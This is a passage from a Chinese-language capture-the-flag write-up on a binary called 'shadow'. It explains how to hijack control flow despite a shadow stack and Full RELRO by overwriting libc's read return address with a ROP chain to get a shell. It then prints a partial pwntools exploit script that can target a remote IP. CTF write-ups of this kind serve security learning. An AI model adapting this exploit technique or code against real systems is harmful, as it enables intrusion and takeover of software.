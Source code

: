 #### 控制流劫持

实现了任意地址无限次可读可写与栈地址的读之后，距离控制流劫持应该是只有一步之遥了，但是有一个很麻烦的问题却出现了：写什么？读什么？

由于影子栈，我们没办法通过改写程序的返回地址来劫持控制流。由于Full RELRO，我们没有办法通过改写GOT或.finiarray来劫持控制流。当时比赛的时候我们就被卡在这里了。这也是这道题目出的最精妙的地方。

再次仔细研究这道题目的影子栈，会发现虽然binary文件中的所有函数调用都被影子栈所保护，但是libc的函数没有啊(函数调用只使用call函数调用没有使用ret函数返回)，虽然binary的GOT被Full RELRO保护，但是libc的GOT没有啊！所以这道题的主要思路是通过写libc函数在栈上的返回地址或者改写libc的GOT来劫持控制流。

首先我们通过任意栈地址读来读取OLD EBP从而泄漏栈地址，接着我们再次利用任意栈地址读泄漏存在于栈中的一个libc data段的地址，利用这个地址我们可以算出system函数的地址，最后我们利用任意地址写来改写libc函数read本身的返回地址来实现控制流劫持，并覆盖read的返回地址后的内存为ROPGadget，通过ROP我们可以轻松获取shell了。

### Exploit

```
from pwn import *;

port=8888
objname = "shadow"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
context(arch="i386", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]

def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    print data;
    return data;

def write(data):
    io.send(str(data));

def writeline(data):
    io.sendline(str(data));

def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    writeline("name")
    writeline("-1"+29*"P");
    write("A"*0x2c)
    readuntil("A"*0x2c);
    stack=readlen(4);
    stack=u32(stack);
    print hex(stack)
    readall();
    add2w=stack-0x100; 
    sleep(0.1)
    writeline("n");
    writeline("-1"+29*"P");
    payload="A"*0x2c;
    payload+="xEBP";
    payload+="xRET";
    payload+=p32(add2w)
```